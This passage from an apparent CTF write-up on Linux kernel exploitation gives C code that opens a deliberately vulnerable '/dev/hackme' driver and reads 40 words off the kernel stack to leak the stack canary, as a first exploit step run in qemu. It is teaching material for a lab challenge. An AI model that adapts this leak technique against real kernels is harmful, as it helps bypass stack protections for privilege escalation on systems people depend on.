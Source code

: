 As we can leak the stack using ``hackme_read`, we can also
read the stack canary token.
Our code is based on [this awesome
writeup](https://0x434b.dev/dabbling-with-linux-kernel-exploitation-ctf-challenges-to-learn-the-ropes/).

We prepare a file called `leak_stack.c`. This can be compiled and
packed in the initramfs using the script shown above in the setup
paragraph.

{% highlight C %}
#include <fcntl.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VULN_DRV = "/dev/hackme";

int64_t global_fd = 0;

void open_dev() {
    global_fd = open(VULN_DRV, O_RDWR);
    if (global_fd < 0) {
        printf("[-] failed to open %s\n", VULN_DRV);
        exit(-1);
    } else {
        printf("[+] successfully opened %s\n", VULN_DRV);
    }
}


void leak_stack() {
    uint8_t sz = 40;
    uint64_t leak[sz];
    printf("[*] trying to leak up to %ld bytes memory\n", sizeof(leak));
    uint64_t data = read(global_fd, leak, sizeof(leak));
    for (int offset=0; offset < sz; offset++){
        printf("[+] offset %d contains value: 0x%lx \n", offset, leak[offset]);
    }
}


int main(int argc, char **argv) {
    open_dev();
    leak_stack();

    return 0;
}
{% endhighlight %}

Then, we can execute `run.sh` to start the kernel and drop into a
shell within the qemu environment. If we included the compiled
`leak_stack.c` correctly, we should find it in the root folder.
